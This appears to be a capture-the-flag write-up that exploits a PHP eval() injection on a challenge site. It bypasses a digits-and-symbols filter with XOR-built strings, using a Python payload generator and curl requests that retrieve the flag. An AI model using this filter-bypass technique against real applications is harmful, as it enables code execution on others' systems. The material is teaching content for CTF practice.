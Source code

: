 # Love Note writeup:
- 1: let make some test:
     every message we submit result to this :
> I don't understand letters darling.What do you mean ....

i submit this: 5+5  and the result is:  10
i thing directly to eval or SSTI :grin: 

ok let  submit this malicious input: ;

Result:

> Parse error: syntax error, unexpected token ";" in /app/index.php(74) : eval()'d code on line 1
so we know that  the backend use our input with eval function.OB3WWYJIFIYG6TRUOIYDSW2WMNFX2SBPHJVTKNL4JA6WOXTBHFMVMZZXMEYHGXSCFASCKKBWJ4ZFAVTEIE======

- 2 know we need to execute code trough  our input.
       for this, we can use burp repeater to make many test.
       after make some test, i understand that the input is filter.
       i use burp intruder to understand the filter. 
# all char is filter expect digits and symbols
 allowed charset is: 0123456789!"#$%&\'()*+,-./:;<=>?@[\\]^_`{|}~
we need to creaft our payload with only allowed chars. But how can we do that :thinking: 
# xored text

# dont forget our purpose is: submit "i love You" message.
we need to creaft  two strings composed only of digits and symbols and the Xor of these two strings will give us our message : " I love You".  i write a simple python script to do that

```python
#from pwn import xor
from string import digits, punctuation

allow_charset = digits + punctuation

def xored_text(text):
    obfuscate1 = ''
    obfuscate2 = ''
    result = ''
    for letter in text:
        found = False
        for  l1 in allow_charset:
            for l2 in allow_charset:
                if ord(l1) ^ ord(l2) == ord(letter):
                    obfuscate1 += l1
                    obfuscate2 += l2
                    found = True
                if found:
                    break
            if found:
                break
        if not found:
            print(f"warning we haven't fund  symbol for {letter}")

    print( f"payload : ('{obfuscate1}'^ '{obfuscate2}')")
    return obfuscate1 + '   ' + obfuscate2





print(xored_text("i love you"))
```

```bash
$ python3 generate_payload.py
payload : ('2@0068@905'^ '[`\_@]`@_@')
2@0068@905   [`\_@]`@_@

```  the script give us this payload: ('2@0068@905'^ '[`\_@]`@_@')


```bash
curl -X POST  -d expression="('2@0068@905'^ '[\`\_@]\`@_@')"  https://lovenote.up.railway.app/
```
# Result:
in  the result , we have this:
```html
<div class="love-note">
            <h2>Messages approuvés :</h2>
            Check ayiwannoumi1247.txt
        </div>
```
so we need to check  ayiwannoumi1247.txt file
```bash
curl   https://lovenote.up.railway.app/ayiwannoumi1247.txt
LoveCTF{4lw4y5_c0mmun1c473_s3cr37ly_w17h_my_l0v3}
```
winnnnnnnnnnnnnnnnn :sweat_smile: !!!!!!!!!!!
that's all :pray_tone1:
